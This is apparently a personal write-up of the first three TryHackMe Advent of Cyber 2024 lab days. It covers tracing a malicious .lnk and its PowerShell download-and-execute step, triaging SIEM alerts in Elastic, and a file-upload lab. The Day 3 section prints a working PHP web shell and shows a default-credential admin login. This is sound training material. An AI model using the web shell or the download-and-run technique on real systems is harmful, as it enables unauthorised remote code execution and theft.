

# Advent of Cyber 2024

## Description

Dive into the wonderful world of cyber security by engaging in festive beginner-friendly exercises every day in the lead-up to Christmas!
* Difficulty: Easy
* Category: Advent of Cyber

## Table of Contents

* [[OPSEC] Day 1: Maybe SOC-mas music, he thought, doesn't come from a store?](#opsec-day-1-maybe-soc-mas-music-he-thought-doesnt-come-from-a-store)
* [[Log Analysis] Day 2: One man's false positive is another man's potpourri](#log-analysis-day-2-one-mans-false-positive-is-another-mans-potpourri)
* [[Log Analysis] Day 3: Even if I wanted to go, their vulnerabilities wouldn't allow it](#log-analysis-day-3-even-if-i-wanted-to-go-their-vulnerabilities-wouldnt-allow-it)

## [OPSEC] Day 1: Maybe SOC-mas music, he thought, doesn't come from a store?

### The Story

*McSkidy tapped keys with a confident grin,  
A suspicious website, now where to begin?  
She'd seen sites like this, full of code and of grime,  
Shady domains, and breadcrumbs easy to find.*

McSkidy's fingers flew across the keyboard, her eyes narrowing at the suspicious website on her screen. She had seen dozens of malware campaigns like this. This time, the trail led straight to someone who went by the name "Glitch."

"Too easy," she muttered with a smirk.

"I still have time," she said, leaning closer to the screen. "Maybe there's more."

Little did she know, beneath the surface lay something far more complex than a simple hacker's handle. This was just the beginning of a tangled web unravelling everything she thought she knew.

### Learning Objectives

* Learn how to investigate malicious link files
* Learn about OPSEC and OPSEC mistakes
* Understand how to track and attribute digital identities in cyber investigations

### Challenge

#### Investigating the Website

We are given an IP address. Let's check it out.


The website we are investigating is a Youtube to MP3 converter currently being shared amongst the organizers of SOC-mas. We've decided to dig deeper after hearing some concerning reports about this website.

At first glance, the website looks legit and presentable. The About Page even says that it was made by "The Glitch". How considerate of them to make our job easier!

Scrolling down, we'll see the feature list, which promises to be "Secure" and "Safe." From our experience, that isn't very likely.

#### Youtube to MP3 Converter Websites

These websites have been around for a long time. They offer a convenient way to extract audio from YouTube videos, making them popular. However, historically, these websites have been observed to have significant risks, such as:
* **Malvertising:** Many sites contain malicious ads that can exploit vulnerabilities in a user's system, which could lead to infection.
* **Phishing scams:** Users can be tricked into providing personal or sensitive information via fake surveys or offers.
* **Bundled malware:** Some converters may come with malware, tricking users into unknowingly running it.

#### Getting some tunes

Let's find out by pasting a Youtube link into the converter. This should download a file for us to investigate. We will be using [our anthem song](https://www.youtube.com/watch?v=dQw4w9WgXcQ) for this. We then extract the downloaded file.


We can see that there are 2 files extracted: `song.mp3` and `somg.mp3`.

Let's quickly determine the file type of these files using the `file` command.


The `song.mp3` file is a regular audio file, while the `somg.mp3` file is an MS Windows shortcut file, aka a `.lnk` file. This file type is used in Windows to link to another file, folder, or application. These shortcuts can also be used to run commands!

There are multiple ways to inspect a `.lnk` file to reveal the embedded commands and attributes. This time we will be using `exiftool`.


Let's go through details of the command shown in the output:
* The `-ep Bypass -nop` flags disable PowerShell's usual restrictions, allowing the script to run without interference from security settings or user profiles.
* The `DownloadFile` method pulls an `IS.ps1` file from a remote `https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1` server and saves it in the `C:\ProgramData` directory.
* Once downloaded, the script is executed using the `iex` command, stands for `Invoke-Expression`, which triggers the downloaded `s.ps1` script.

Now we know what the link file does. Let's take a look at the script it downloads. We can visit the link in the command to view the script.


We can see that the script is designed to collect sensitive information from the victim's system, such as cryptocurrency wallets and saved browser credentials, and then send it to an attacker's remote server.

This looks fairly typical of a PowerShell script for such a purpose, with one notable exception: a signature in the code that reads `Created by the one and only M.M.`.

#### Searching the Source

There are many paths we could take to continue our investigation. We could investigate the website further, analyse its source code, or search for open directories that might reveal more information about the malicious actor's setup. We can search for the hash or signature on public malware databases like VirusTotal or AnyRun. Each of these methods could yield useful clues.

However, we will try something different this time. Since we already have the PowerShell code, searching for it online might give us useful leads. It's a long shot, but we'll explore it in this exercise.

There are many places where we can search for code. The most widely used is Github. So let's try searching there.

To search effectively, we can look for unique parts of the code that we could use to search with. The more distinctive, the better. For this scenario, we have the string we've uncovered before that reads: `Created by the one and only M.M.`.


As we go through the search result, we found an interesting issue thread. Let's take a look at it.


Looks like this user has made a critical mistake.

##### Introduction to OPSEC

This is a classic case of OPSEC failure.

Operational Security (OPSEC) is a term originally coined in the military to refer to the process of protecting sensitive information and operations from adversaries. The goal is to identify and eliminate potential vulnerabilities before the attacker can learn their identity.

In the context of cyber security, when malicious actors fail to follow proper OPSEC practices, they might leave digital traces that can be pieced together to reveal their identity. Some common OPSEC mistakes include:
* Reusing usernames, email addresses, or account handles across multiple platforms. One might assume that anyone trying to cover their tracks would remove such obvious and incriminating information, but sometimes, it's due to vanity or simply forgetfulness.
* Using identifiable metadata in code, documents, or images, which may reveal personal information like device names, GPS coordinates, or timestamps.
* Posting publicly on forums or GitHub with details that tie back to their real identity or reveal their location or habits.
* Failing to use a VPN or proxy while conducting malicious activities allows law enforcement to track their real IP address.

We'd think that someone doing something bad would make OPSEC their top priority, but they're only human and can make mistakes, too.

Here are some real-world OPSEC mistakes that led to some really big fails:

##### AlphaBay Admin Takedown

One of the most spectacular OPSEC failures involved Alexandre Cazes, the administrator of AlphaBay, one of the largest dark web marketplaces:
* Cazes used the email address `pimp_alex_91@hotmail.com` in early welcome emails from the site.
* This email included his year of birth and other identifying information.
* He cashed out using a Bitcoin account tied to his real name.
* Cazes reused the username `Alpha02` across multiple platforms, linking his dark web identity to forum posts under his real name.

##### Chinese Military Hacking Group (APT1)

There's also the notorious Chinese hacking group APT1, which made several OPSEC blunders:
* One member, Wang Dong, signed his malware code with the nickname `Ugly Gorilla`.
* This nickname was linked to programming forum posts associated with his real name.
* The group used predictable naming conventions for users, code, and passwords.
* Their activity consistently aligned with Beijing business hours, making their location obvious.

These failures provided enough information for cyber security researchers and law enforcement to publicly identify group members.

#### Uncovering MM

We know the attacker left a distinctive signature in the PowerShell code (MM). This allowed us to search for related repositories and issues pages on GitHub. We then discovered an Issues page where the attacker engaged in discussions, providing more context and linking their activity to other projects.

In this discussion, they responded to a query about modifying the code. This response, paired with their unique handle, was another critical slip-up, leaving behind a trail of evidence that can be traced back to them. By analysing the timestamps, usernames, and the nature of their interactions, we can now attribute the mastermind behind the attack to MM.

#### What's Next?

*McSkidy dug deeper, her mind sharp and quick,  
But something felt off, a peculiar trick.  
The pieces she’d gathered just didn’t align,  
A puzzle with gaps, a tangled design.*

As McSkidy continued digging, a pattern emerged that didn't fit the persona she was piecing together. A different handle appeared in obscure places, buried deep in the details: `MM.`

"Who's MM?" McSkidy muttered, the mystery deepening.

Even though all signs on the website seemed to point to Glitch as the author, it became clear that someone had gone to great lengths to ensure Glitch's name appeared everywhere. Yet, the scattered traces left by MM suggested a deliberate effort to shift the blame.

#### Solving challenge questions

1. Who is the author of the song?

As we check the `song.mp3` file with `exiftool`, we can see the name of the author in the metadata.

```
┌──(DrunkenHacker㉿kali)-[~/MyCourses/TryHackMe/adventofcyber2024/Day1]
└─$ exiftool song.mp3 
ExifTool Version Number         : 12.76
File Name                       : song.mp3
Directory                       : .
File Size                       : 4.6 MB
File Modification Date/Time     : 2024:10:24 09:50:46+02:00
File Access Date/Time           : 2024:12:02 13:06:58+01:00
File Inode Change Date/Time     : 2024:12:02 12:57:46+01:00
File Permissions                : -rwxrwxr-x
File Type                       : MP3
File Type Extension             : mp3
MIME Type                       : audio/mpeg
MPEG Audio Version              : 1
Audio Layer                     : 3
Audio Bitrate                   : 192 kbps
Sample Rate                     : 44100
Channel Mode                    : Stereo
MS Stereo                       : Off
Intensity Stereo                : Off
Copyright Flag                  : False
Original Media                  : False
Emphasis                        : None
ID3 Size                        : 2176
Artist                          : [REDACTED]
Album                           : Rap
Title                           : Mount HackIt
Encoded By                      : Mixcraft 10.5 Recording Studio Build 621
Year                            : 2024
Genre                           : Rock
Track                           : 0/1
Comment                         : 
Date/Time Original              : 2024
Duration                        : 0:03:11 (approx)
```

2. The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?

We have seen the URL in the PowerShell script.

3. Who is M.M? Maybe his Github profile page would provide clues?

As we go to the Github profile page of `MM-WarevilleTHM`, we can see 2 public repositories: `IS` and `M.M`. The `IS` repository contains the PowerShell script we have seen before. As we check the other repository, we can see that it contains a Markdown file as follows:

```markdown
- Hi, I’m M.M, also known as [REDACTED]. I run things in Wareville Town.
- This year, SOC-mas is not going to happen and I will do all I can to sabotage it.
- I'll develop all necessary tools and plans to sabotage the event and frustrate the citizens of Wareville. One thing is to find someone to blame for all this. Maybe Glitch will take the blame.
- How to reach me? Find me around Wareville.
```

4. What is the number of commits on the GitHub repo where the issue was raised?

We can go the issue thread we found earlier, then go to **Insights** $\rightarrow$ **Commits** to see the number of commits.

## [Log Analysis] Day 2: One man's false positive is another man's potpourri

### The Story

It’s the most wonderful time of the year again, and it’s also the most stressful day for Wareville’s Security Operations Center (SOC) team. Despite the overwhelming alerts generated by the new and noisy rules deployed, Wareville’s SOC analysts have been processing them nonstop to ensure the safety of the town.

However, the SOC analysts are now burning out of all the workload needed before Christmas. Numerous open cases are still pending, and similar alerts are still firing repeatedly, making them think of the possibility of false positives out of all this mess.

Now, we need to help the awesome Wareville’s SOC team analyse the alerts to determine whether the rumour is true - that Mayor Malware is instigating chaos within the town.

### True Positives or False Positives?

In a SOC, events from different devices are sent to the SIEM, which is the single source of truth where all the information and events are aggregated. Certain rules (Detection Engineering rules) are defined to identify malicious or suspicious activity from these events.

If an event or set of events fulfils the conditions of a rule, it triggers an alert. A SOC analyst then analyses the alert to identify if the alert is a True Positive (TP) or a False Positive (FP).

An alert is considered a TP if it contains actual malicious activity. On the flip side, if the alert triggers because of an activity that is not actually malicious, it is considered an FP. This might seem very simple in theory, but practically, separating TPs from FPs can be a tedious job. It can sometimes become very confusing to differentiate between an attacker and a system administrator.

### Making a Decision

While it is confusing to differentiate between TPs and FPs, it is very crucial to get it right. If a TP is falsely classified as an FP, it can lead to a significant impact from a missed cyber attack. If an FP is falsely classified as a TP, precious time will be spent focusing on the FP, which might lead to less focus on an actual attack. So, how exactly do we ensure that we perform this crucial job effectively? We can use the below pointers to guide us.

#### Using the SOC Superpower

The SOC has a superpower. When they are unsure whether an activity is performed by a malicious actor or a legitimate user, they can just confirm with the user. This privilege is not available to the attacker. A SOC analyst, on the other hand, can just send an email or call the relevant person to get confirmation of a certain activity.

In mature organisations, any changes that might trigger an alert in the SOC often require Change Requests to be created and approved through the IT change management process. Depending on the process, the SOC team can ask the users to share Change Request details for confirmation. Surely, if it is a legitimate and approved activity, it must have an approved Change Request.

#### Context

While it might seem like using the SOC superpower makes things super easy, that is not always the case. There are cases which can act as Kryptonite to the SOC superpower:
* If an organisation doesn't have a change request process in place.
* The performed activity was outside the scope of the change request or was different from that of the approved change request.
* The activity triggered an alert, such as copying files to a certain location, uploading a file to some website, or a failed login to a system.
* An insider threat performed an activity they are not authorised to perform, whether intentionally or unintentionally.
* A user performed a malicious activity via social engineering from a threat actor.

In such scenarios, it is very important for the SOC analyst to understand the context of the activity and make a judgement call based on their analysis skills and security knowledge. While doing so, the analyst can look at the past behaviour of the user or the prevalence of a certain event or artefact throughout the organisation or a certain department.

For example, if a certain user from the network team is using Wireshark, there is a chance that other users from the same team also use Wireshark. However, Wireshark seen on a machine belonging to someone from HR or finance should rightfully raise some eyebrows.

#### Correlation

When building the context, the analyst must correlate different events to make a story or a timeline. Correlation entails using the past and future events to recreate a timeline of events. When performing correlation, it is important to note down certain important artefacts that can then be used to connect the dots. These important artefacts can include IP addresses, machine names, user names, hashes, file paths, etc.

Correlation requires a lot of hypothesis creation and ensuring that the evidence supports that hypothesis. A hypothesis can be something like the user downloaded malware from a spoofed domain. The evidence to support this can be proxy logs that support the hypothesis that a website was visited, the website used a spoofed domain name, and a certain file was downloaded from that website.

Now, let's say, we want to identify whether the malware executed through some vulnerability in an application or a user intentionally executed the malware. To see that, we might look at the parent process of the malware and the command line parameters used to execute the said malware.

If the parent process is Windows Explorer, we can assume the user executed the malware intentionally (or they might have been tricked into executing it via social engineering), but if the parent process is a web browser or a word processor, we can assume that the malware was not intentionally executed, but it was executed because of a vulnerability in the said application.

### Is this a TP or an FP?

Similar to every SOC, the analysts in the Wareville SOC also need to differentiate TPs from FPs. This becomes especially difficult for them near Christmas when the analysts face alert fatigue.

High chances of misclassification of TPs into FPs and vice versa are present in such times. The analysts, therefore, appreciate any help they could get from us in this crucial time. To make matters worse, the office of the Mayor has sent the analysts an alert informing them of multiple encoded powershell commands run on their systems. Perhaps we can help with that.

We are given access to an Elastic SIEM instance to analyse the logs.


Time to log in and check the logs.


Now that we are in, time to look at the **Discover** tab to see we are dealing with. According to the alert sent by the Mayor's office, the activity occurred on Dec 1st, 2024, between 09:00 and 09:30. We can set this as our time window by clicking the timeframe settings in the upper-right corner.


Now that we have set the time window, we see 21 events in the timeframe. In their current form, these events don't look very easily readable. We can use the fields in the left pane to add columns to the results and make them more readable.

Since we are looking for events related to PowerShell, we would like to know the following details about the logs:
* The hostname where the command was run. We can use the `host.hostname` field as a column for that.
* The user who performed the activity. We can add the `user.name` field as a column for this information.
* We will add the `process.command_line` field to ensure we are looking at the correct event category.
* To know the actual commands run using PowerShell, we can add the `process.command_line` field.
* Finally, to know if the activity succeeded, we will add the `event.outcome` field.

Once we have added these fields as columns, we will see the results in a format like this.


So, it looks like someone ran the same encoded PowerShell command on multiple machines. Another thing to note here is that before each execution of the PowerShell command, we see an authentication event, which was successful.

This activity is observed individually on each machine, and the time difference between the login and PowerShell commands looks very precise. Best practices dictate that named accounts are used for any kind of administrator activity so that there is accountability and attribution for each administrative activity performed.

The usage of a generic admin account here also seems suspicious. On asking, the analysts informed us that this account is used by two administrators who were not in the office when this activity occurred. Something is definitely not right. Are these some of Glitch's shenanigans? Is Christmas in danger? We need to find out who ran these commands.

Let's add in the `source.ip` field to find out who ran the PowerShell commands.


Since the `source.ip` field is only available for the authentication events, we can filter out the process events to see if there is a pattern. Let's filter for authentication events to show only those in the results.


As a result, we can see that the output only renders the authentication events. Since the result does not give useful insights, let's remove it for now.

Since the timeframe we previously used was for the PowerShell events, and the authentication events might have been coming from before that, we will need to expand the search to understand the context and the historical events for this user. Let's see if we have any events from the user from the 29th of November to the 1st of December. Updating the time filter for these days, the results look like this.


There have been more than 6000 events in 3 days! However, even though we used the time filter for the day end on the 1st of December, we see no events after successful PowerShell execution. There have also been a lot more authentication events in the previous days than on the 1st of December.

To understand the events further, let's filter for our `user.name` with `service_admin` and `source.ip` with `10.0.11.11` to narrow our search.


Uh-oh! It looks like all these events have been coming from the same user and the same IP address. We definitely need to investigate further. This also does not explain the spike. Let's filter for authentication events first. Moreover, let's filter out the Source IP here to see if we can find the IP address that caused the spike.


Scrolling down, we see many events for failed logins. We also see that the IP address for the spike differs from the one we saw for the events continuously coming in the previous days. The analysts have previously investigated this and found that a script with expired credentials was causing this issue. However, that script was updated with a fresh set of credentials. Anyhow, this might just be another script. Let's remove the source IP filter so we can focus on authentication events close to the spike.


After applying the new filter, we see that the failed logins stopped a little while after the successful login from the new IP. Our suspicions are rising. It seems that someone tried a brute-force attack on December 1st, as shown by the same filters applied above.


The results also showed that they succeeded with the brute-force attempt because of the successful authentication attempt and quickly ran some PowerShell commands on the affected machines. Once the PowerShell commands were run, we didn't see any further login attempts. This looks like a TP, and there needs to be an escalation so that McSkidy can help us respond to this incident.

### Christmas in Danger?

The alarms have gone off, and McSkidy has been called to help take this incident further. The analysts have briefed McSkidy about the incident. McSkidy observed that nobody had actually looked at what the PowerShell command contained. Since the command was encoded, it needs to be decoded. McSkidy changed the filters with `event.category`: process to take a deeper look at the PowerShell commands.


We can see the PowerShell command in the `process.command_line` field.

```powershell
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -EncodedCommand SQBuAHMAdABhAGwAbAAtAFcAaQBuAGQAbwB3AHMAVQBwAGQAYQB0AGUAIAAtAEEAYwBjAGUAcAB0AEEAbABsACAALQBBAHUAdABvAFIAZQBiAG8AbwB0AA==
```

McSkidy knows that Encoded PowerShell commands are generally Base64 Encoded and can be decoded using tools such as CyberChef.


The result provided a sigh of relief to McSkidy, who had feared that the Christmas had been ruined. Someone had come in to help McSkidy and the team secure their defences, but who?

### Villian or Hero?

McSkidy further analysed the secret hero and came to a startling revelation. The credentials for the script in the machines that ran the Windows updates were outdated. Someone brute-forced the systems and fixed the credentials after successfully logging in.

This was evident from the fact that each executed PowerShell command was preceded by a successful login from the same Source IP, causing failed logins over the past few days. And what's even more startling? It was Glitch who accessed ADM-01 and fixed the credentials after McSkidy confirmed who owned the IP address.

This meant that the people of Wareville had misunderstood Glitch, who was just trying to help shore up the defences. But if Glitch was the one helping the defences, who was trying to sabotage it? Was it the Mayor who informed the SOC about these *suspicious* PowerShell commands?

Just like alerts aren't always what they seem in a SOC, so was the case here at Wareville with people. As hard as it was to differentiate between a TP and an FP, so was the case with the Mayor and Glitch. However, McSkidy can perhaps use the evidence-based deduction skills learned in a SOC to make this difference easier for the people of Wareville.

### Solving challenge questions

1. What is the name of the account causing all the failed login attempts?

The account causing all the failed login attempts is seen earlier in the logs as we applied the filter.

2. How many failed logon attempts were observed?

We can set the `event.category` filter to `authentication` and the `event.outcome` filter to `failure` to see the number of failed logon attempts.

3. What is the IP address of Glitch?

It was the IP address that caused the spike in the logs.

4. When did Glitch successfully logon to ADM-01? Format: `MMM D, YYYY HH:MM:SS.SSS`

As we have Glitch's IP address, we can filter for the successful logon events from that IP address.

5. What is the decoded command executed by Glitch to fix the systems of Wareville?

We decoded the command earlier.

## [Log Analysis] Day 3: Even if I wanted to go, their vulnerabilities wouldn't allow it

### The Story

*Late one Christmas evening the Glitch had a feeling,*  
*Something forgotten as he stared at the ceiling.*  
*He got up out of bed and decided to check,*  
*A note on his wall: ”Two days! InsnowSec”.*

*With a click and a type he got his hotel and tickets,*  
*And sank off to sleep to the sound of some crickets.*  
*Luggage in hand, he had arrived at Frosty Pines,*  
*“To get to the conference, just follow the signs”.*

*Just as he was ready the Glitch got a fright,*  
*An RCE vulnerability on their website ?!?*  
*He exploited it quick and made a report,*  
*But before he could send arrived his transport.*

*In the Frosty Pines SOC they saw an alert,*  
*This looked quite bad, they called an expert.*  
*The request came from a room, but they couldn’t tell which,*  
*The logs saved the day, it was the room of... the Glitch.*

In this task, we will cover how the SOC team and their expert were able to find out what had happened (Operation Blue) and how the Glitch was able to gain access to the website in the first place (Operation Red).

### Learning Objectives

* Learn about Log analysis and tools like ELK.
* Learn about KQL and how it can be used to investigate logs using ELK.
* Learn about RCE (Remote Code Execution), and how this can be done via insecure file upload.

### OPERTATION BLUE

#### Log Analysis and ELK

Analysing logs can quickly become overwhelming, especially if we have multiple devices and services. ELK, or Elasticsearch, Logstash, and Kibana, combines data analytics and processing tools to make analysing logs much more manageable. ELK forms a dedicated stack that can aggregate logs from multiple sources into one central place.

#### Kibana Query Language (KQL)

KQL, or Kibana Query Language, is an easy-to-use language that can be used to search documents for values. For example, querying if a value within a field exists or matches a value. If we are working with Splunk, we may be thinking of SPL (Search Processing Language).

Alternatively, Kibana also allows using Lucene query, an advanced language that supports features such as fuzzy terms (searches for terms that are similar to the one provided), regular expressions, etc. The table below contains a mini-cheatsheet for KQL syntax.

| **Query/Syntax** | **Description**                                                                                      | **Example**                   |
| ---------------- | ---------------------------------------------------------------------------------------------------- | ----------------------------- |
| ""               | Search for an exact match                                                                            | "TryHackMe"                   |
| *                | The asterisk denotes a wildcard, which searches documents for similar matches to the value provided. | United*                       |
| OR               | This logical operator is used to show documents that contain either of the values provided.          | "United Kingdom" OR "England" |
| AND              | This logical operator is used to show documents that contain both values.                            | "Ben" and "25"                |
| :                | This is used to search the (specified) field of a document for a value                               | ip.address: 10.10.10.10       |

#### Investigating Web Attack with ELK

**Scenario:** Thanks to our extensive intrusion detection capabilities, our systems alerted the SOC team to a web shell being uploaded to the WareVille Rails booking platform on Oct 1, 2024. Our task is to review the web server logs to determine how the attacker achieved this.

Steps to investigate:
1. Go to **Discover** in Kibana.
2. Set the time range.
3. Apply suitable filters and analyse the logs.

### OPERATION RED

#### Why Do Websites Allow File Uploads

File uploads are everywhere on websites, and for good reason. Users often need to upload files like profile pictures, invoices, or other documents to update their accounts, send receipts, or submit claims. These features make the user experience smoother and more efficient. But while this is convenient, it also creates a risk if file uploads aren't handled properly. If not properly secured, this feature can open up various vulnerabilities attackers can exploit.

#### File Upload Vulnerabilities

File upload vulnerabilities occur when a website doesn't properly handle the files that users upload. If the site doesn't check what kind of file is being uploaded, how big it is, or what it contains, it opens the door to all sorts of attacks. For example:
* **RCE:** Uploading a script that the server runs gives the attacker control over it.
* **XSS:** Uploading an HTML file that contains an XSS code which will steal a cookie and send it back to the attacker's server.

#### Why Unrestricted File Uploads Are Dangerous

Unrestricted file uploads can be particularly dangerous because they allow an attacker to upload any type of file. If the file's contents aren't properly validated to ensure only specific formats like PNG or JPG are accepted, an attacker could upload a malicious script, such as a PHP file or an executable, that the server might process and run. This can lead to code execution on the server, allowing attackers to take over the system.

Examples of abuse through unrestricted file uploads include:
* Uploading a script that the server executes, leading to RCE.
* Uploading a crafted image file that triggers a vulnerability when processed by the server.
* Uploading a web shell and browsing to it directly using a browser.

#### Usage of Weak Credentials

One of the easiest ways for attackers to break into systems is through weak or default credentials. This can be an open door for attackers to gain unauthorised access. Default credentials are often found in systems where administrators fail to change initial login details provided during setup. For attackers, trying a few common usernames and passwords can lead to easy access.

Here are some common or weak credentials that attackers might try:
* `admin:admin`
* `administrator:administrator`
* `admin@domainname:admin`
* `guest:guest`

#### What is Remote Code Execution (RCE)

Remote code execution (RCE) happens when an attacker finds a way to run their own code on a system. This is a highly dangerous vulnerability because it can allow the attacker to take control of the system, exfiltrate sensitive data, or compromise other connected systems.

#### What is a Web Shell

A web shell is a script that attackers upload to a vulnerable server, giving them remote control over it. Once a web shell is in place, attackers can run commands, manipulate files, and essentially use the compromised server as their own. They can even use it to launch attacks on other systems.

For example, attackers could use a web shell to:
* Execute commands on the server
* Move laterally within the network
* Download sensitive data or pivot to other services

A web shell typically gives the attacker a web-based interface to run commands. Still, in some cases, attackers may use a reverse shell to establish a direct connection back to their system, allowing them to control the compromised machine remotely. Once an attacker has this level of access, they might attempt privilege escalation to gain even more control, such as achieving root access or moving deeper into the network.

#### Exploiting RCE via File Upload

Once an RCE vulnerability has been identified that can be exploited via file upload, we now need to create a malicious file that will allow remote code execution when uploaded.

#### Making the most of it

Once the vulnerability has been exploited and we now have access to the operating system via a web shell, there are many next steps we could take depending on:
1. What our goal is
2. What misconfigurations are present on the system, which will determine exactly what we can do.

These are just some commands that can be run following a successful RCE exploit. It's very open-ended, and what we can do will rely on our abilities to inspect an environment and vulnerabilities in the system itself.

### Practical

We will be answering questions while solving the challenge. First, we need to access Kibana on `<MACHINE_IP>:5601` to investigate the logs.


As we arrive at the Kibana home page, we continue to the **Discover** tab to investigate the logs.


We haven't seen any logs yet but okay. We set the index pattern to `frostypines-resorts` and the time range to between 11:30 and 12:00 on Oct 3rd, 2024 as given in the challenge.


We can see that there are 483 hits in the logs. As we take a look at the `clientip` field, we can see that there are 2 main IP addresses: `10.9.254.186` and `10.11.83.34`. Let's first take a look at the logs of `10.9.254.186`.


There are 314 hits for this IP address. After some extensive scrolling, it seems that all the logs are legitimate activities. Let's now take a look at the logs of `10.11.83.34`.


After just a few scrolls, we can set requests to a file named `shell.php` with `command` parameter set to various commands such as `ls`, `id`, `echo`, etc. This is an indication of a web shell uploaded to the website.

> **BLUE:** Where was the web shell uploaded to?  
> **Answer format:** `/directory/directory/directory/filename.php`
> Answer hint: Look at the `request` field in the logs.

> **BLUE:** What IP address accessed the web shell?
> **Answer:** `10.11.83.34`

Now that we know what happened, we need to recreate the attack to confirm the vulnerability. We will go to the website via the link provided.


We found a login page. We can try default credentials such as `admin@frostypines.thm:admin` to see if we can log in.


It worked! And we also see an admin panel. Let's check it out.


There is an `Add new room` section. Time to check it out.


Now we upload our webshell. We can use the webshell provided in the challenge.

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```

We save this as `webshell.php` and upload it. Then we go to the `webshell.php` file to see if it works.


Sounds like it does! Let's try running some commands.


Seems like we have RCE. And we even have sudo privileges. Let's check the files around us.



> **RED:** What is the contents of the flag.txt?
> We have seen the `flag.txt` file in the previous `ls` command. Check the contents with `cat` and we have the flag.